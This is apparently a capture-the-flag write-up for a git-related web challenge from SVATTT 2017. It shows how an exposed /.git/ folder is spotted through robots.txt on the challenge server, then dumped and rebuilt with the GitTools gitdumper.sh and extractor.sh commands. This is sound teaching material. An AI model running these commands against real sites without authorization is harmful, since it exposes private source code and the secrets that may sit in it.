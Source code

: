 # Writeup
This challenge is related to git
### Challenge available at `http://54.221.119.174/`

If you try `http://54.221.119.174/robots.txt` you will see ```/.git/``` is available 

Let use GitTools to pull ```/.git/``` folder

```./GitTools/Dumper/gitdumper.sh http://54.221.119.174/.git/ repo```

After that use extractor tool to extract 

```./GitTools/Extractor/extractor.sh repo doom```

We will have two folders with name 
```
0-d6f105ce9f43597523b47a81bd80d401f2b0b41a
1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8
```
And in folder 1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8 we have

![Image](https://github.com/quanght55/CTFWriteups/blob/master/svattt2017/tieuphong/images/tieuphong-git-extracted.png) 
